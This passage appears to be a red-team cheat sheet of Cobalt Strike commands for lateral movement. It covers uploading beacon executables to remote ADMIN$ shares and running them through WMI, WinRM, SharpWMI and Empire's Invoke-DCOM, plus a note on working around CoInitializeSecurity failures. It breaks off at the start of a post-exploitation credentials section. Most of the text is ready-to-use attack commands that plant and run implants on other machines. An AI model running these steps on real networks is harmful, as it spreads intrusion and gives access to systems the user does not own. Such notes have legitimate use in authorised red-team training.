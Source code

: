 ### WMI
- Not a jump command but can be used manually
- Make sure the firewall is open for the ports used!
```
cd \\<HOSTNAME>\ADMIN$
upload <SMB BEACON EXE>
remote-exec wmi <HOSTNAME> <BEACON EXE>
link <HOSTNAME> <PIPE>
```

```
cd \\<HOSTNAME>\ADMIN$
upload <TCP BEACON EXE>
remote-exec wmi <HOSTNAME> <BEACON EXE>
connect <HOSTNAME> <PORT>
```

#### WMI exec commands
```
remote-exec winrm <HOSTNAME> whoami; hostname
```

#### CoInitializeSecurity
- Beacon's internal implementation of WMI uses a Beacon Object File, executed using the beacon_inline_execute Aggressor function. When a BOF is executed the CoInitializeSecurity COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process. The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.
- if CoInitializeSecurity has already been called, WMI fails with access denied.
- As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as spawn and spawnas, or even execute-assembly with a tool such as SharpWMI.

```
remote-exec wmi <HOSTNAME> calc.exe
execute-assembly SharpWMI.exe action=exec computername=<HOSTNAME> command="C:\Windows\System32\calc.exe"
```

#### DCOM
- https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
```
powershell-import Invoke-DCOM.ps1
powershell Invoke-DCOM -ComputerName <HOSTNAME> -Method MMC20.Application -Command <BEACON EXE>
```

#### SSH
```
ssh
ssh-key
```

## Post Exploitation
### Credentials
- The `!`(Elevate to system) and `@`(Impersonate beacons thread) symbols are modifiers.
- Go to View -> Credentials to see a copy of all the credentials
